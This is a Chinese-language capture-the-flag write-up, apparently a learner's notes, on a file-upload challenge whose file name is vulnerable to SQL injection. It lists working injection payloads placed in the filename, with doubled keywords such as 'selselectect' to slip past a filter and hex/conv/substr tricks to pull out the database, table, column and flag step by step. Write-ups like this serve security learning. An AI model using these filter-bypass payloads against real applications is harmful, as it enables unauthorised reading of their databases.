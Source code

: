 ## 题目描述

![image-20210117193823007](\image-1\image-20210117193823007.png)

首先是一个注册界面，填入邮箱密码注册之后，点击login，然后进入到上图的界面，可以选择一个文件进行上传，但是上传文件的后缀名必须为.jpg文件名后缀。

## 御剑扫描后台

使用御剑进行扫描，发现存在includes文件夹：

![image-20210117195054337](\image-1\image-20210117195054337.png)

好像并没有什么用处……

## 使用burp suite拦截包



![image-20210117201930639](\image-1\image-20210117201930639.png)

![image-20210117202133639](\image-1\image-20210117202133639.png)

网上的write up查了过滤的规则，我没有弄清楚他是怎么查的，根据intruder里面的功能，对指定的payload查询过滤规则，本题要对filename那里的过滤规则进行查询，因为我们的目标是通过这个网站上传文件之后的回显功能，再根据sql注入，通过回显来查询到我们所需要的信息，比如数据库，表名之类的信息。

网上说这个服务器中对filename进行了双写绕过（然后我硬是没有搞明白这一步是怎么弄的，这里还没有搞明白怎么设置过滤）

## sql注入

通过回显功能，我们可以将文件名改成

a' +(selselectect conv(substr(hex(database()),1,12),16,10))+ '.jpg

![image-20210117220936612](\image-1\image-20210117220936612.png)



本来是select database()便可以得到数据库的名称，但是在这道题中，存在两个问题：

1.首先，超出一定的长度会出现科学计数法：

![image-20210117221520355](\image-1\image-20210117221520355.png)

所以需要对得到的数据库名进行substr操作得到子字符串。

2.其次，在使用十六进制的时候，会把出现字母（abcdef）的内容给截掉，所以我们要使用conv函数将十六进制的转化成十进制。

最终通过两个payload得到数据库名：

（在这里有个疑问就是为什么要把select打成selselectect呢？）

```mysql
a' +(selselectect conv(substr(hex(database()),1,12),16,10))+ '.jpg
a' +(selselectect conv(substr(hex(database()),12,15),16,10))+ '.jpg
```

得到的回显结果如下图所示：

![image-20210117221737631](\image-1\image-20210117221737631.png)

得到的是十进制的结果，我们要先把这些十进制的结果转化成十六进制，再将十六进制转化成字符串文本内容，得到的就是数据库的名称。

![image-20210117222850309](\image-1\image-20210117222850309.png)

7765625f7570

![image-20210117222918722](\image-1\image-20210117222918722.png)

6c6f6164

![image-20210117223004406](\image-1\image-20210117223004406.png)

所以数据库的名称为web_upload.

接下来依次对表名、列名、字段名进行相同的操作得到flag：

**查询表名**

a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA = 'web_upload' limit  1,1)),1,12),16,10))+'.jpg

a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA = 'web_upload' limit  1,1)),1,12),16,10))+'.jpg

 a'+(seleselectct+CONV(substr(hex((selselectect TABLE_NAME frfromom information_schema.TABLES where TABLE_SCHEMA =  'web_upload' limit 1,1)),25,12),16,10))+'.jpg

按照上述转换操作得到的结果是：hello_flag_is_here

**查询列名**

s ‘+(seleselectct+CONV(substr(hex((seselectlect COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME = ‘hello_flag_is_here’  limit 0,1)),1,12),16,10))+’.jpg

s ‘+(seleselectct+CONV(substr(hex((seselectlect COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME = ‘hello_flag_is_here’  limit 0,1)),13,12),16,10))+’.jpg

得到的结果是i_am_flag

**查询字段内容**

s ‘+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),1,12),16,10))+’.jpg

s ‘+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),13,12),16,10))+’.jpg

s ‘+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),25,12),16,10))+’.jpg

得到的结果是!!_@m_Th.e_F!lag，所以flag就是这个。


